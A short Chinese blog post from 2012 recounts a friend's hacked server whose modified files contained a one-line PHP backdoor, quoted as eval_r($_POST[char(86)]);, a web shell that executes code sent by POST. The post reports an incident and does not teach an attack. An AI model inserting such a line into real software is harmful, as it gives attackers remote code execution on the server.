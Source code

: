 ```yaml
---
id: 140
title: 一句话后门……PHP
date: 2012-06-20T14:39:59+08:00
author: 徐艺洲
layout: post
guid: http://www.fireidea.com/archives/140
permalink: /archives/140
categories:
  - PHP
  - 经典技巧
tags:
  - it
---
```

<div id="sina_keyword_ad_area2" class="articalContent   ">
  今天一个朋友服务器被攻击<br />验证码打不开了，奇怪中<br />打开一看几个文件被改了<br />里面加了一句<br />eval_r($_POST[char(86)]);<br />一地汗珠……<br />这个可真是一句无敌后门……</p>